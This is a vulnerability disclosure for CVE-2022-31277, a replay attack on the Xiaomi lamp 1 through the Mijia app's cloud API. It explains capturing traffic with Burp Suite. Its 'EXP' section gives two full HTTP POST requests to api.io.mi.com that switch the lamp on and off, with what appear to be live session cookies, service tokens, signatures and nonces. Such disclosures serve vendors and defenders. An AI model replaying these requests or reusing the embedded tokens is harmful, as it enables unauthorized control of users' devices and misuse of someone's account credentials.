


# Xiaomi lamp 1 replay_attack

**CVE ID**:

**CVE ID**: CVE-2022-31277

**CNVD ID**: CNVD-2022-08945

**Vender**: Xiaomi

**Vendor Homepage**: https://www.mi.com/

**Affect products**: Xiaomi lamp 1

**Firmware version**: 2.0.4_0066

**Hardware Link**: non-public

**Exploit Author**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## describe

The Xiaomi lamp 1 has a replay attack vulnerability, which allows remote attackers to bypass the expected access restrictions through replay attacks and control the Xiaomi lamp 1 switch and other functions.

## detail

Take the replay attack to turn on the lamp as an example。Grab the [Mijia](https://app.mi.com/details?id=com.xiaomi.smarthome) APP traffic through **burpsutie**, click to turn on the desk lamp, and grab a traffic packet whose path is `/app/home/rpc/xxxxxx`, this is the data packet for controlling the desk lamp:


Put it in the replayer and just send this packet to turn on the lamp.


You can see that the data in the package is encrypted. By analyzing the apk, it is known that the encrypted json stores the key-value pair of the control information. Grab a light-on action package again:



The data ciphertext of the two data packets is different, but **both data packets can be replayed to turn on the lamp**.

## attack demo

The attack video process, please check the [demo video](./video.mp4) in the catalog



## EXP

**Power on**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=YHYNfLWS8LEBZBZZIdUR1X606sBwilQiZDMloVqjt%2BFVbPNjRnEIeB5DvZinL7Y%3D&rc4_hash__=XqPOZ7wCLzpDaEroeFmOWQXUiCoFIyOiy49GNQ%3D%3D&signature=zts1XCrmpHnd7ukhqB1Uv3am6kk%3D&_nonce=Cpz3G2Yb8koBoWqu&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

**Power off**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=AeYm0RhrXxd2UFW0RbrSq1vJg00F7etiu3HU%2B49SIY0KBAr5BZ4aWWtRRp%2BkUfpK&rc4_hash__=t1RrRFeKaIExpcqPD7fs29PwOaWF0%2BZDak92NA%3D%3D&signature=G5jfJlJkrYKectgL1ylXFWV6g1M%3D&_nonce=hlmICBR3G2cBoWqv&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

